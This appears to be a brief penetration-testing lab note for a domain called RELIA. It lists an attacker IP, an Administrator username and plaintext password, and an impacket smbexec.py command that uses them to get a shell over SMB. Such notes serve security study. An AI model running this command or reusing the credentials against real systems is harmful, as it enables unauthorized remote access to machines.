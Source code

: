 ```yaml
---
IP_KALI: 192.168.45.155
USER: Administrator
PASSWD: DonovanJadeKnight1
DOMAIN: RELIA
IP_TARGET:
---
```

If a user has Administrative access (i.e. CME shows pwn3d) to an SMB share then you can initiate a reverse shell
- ~={green}python ~/impacket/examples/smbexec.py <span id="DOMAIN"/>RELIA<span type="end"/>/<span id="USER"/>Administrator<span type="end"/>:"<span id="PASSWD"/>DonovanJadeKnight1<span type="end"/>"@<span id="IP_TARGET"/>null<span type="end"/>=~
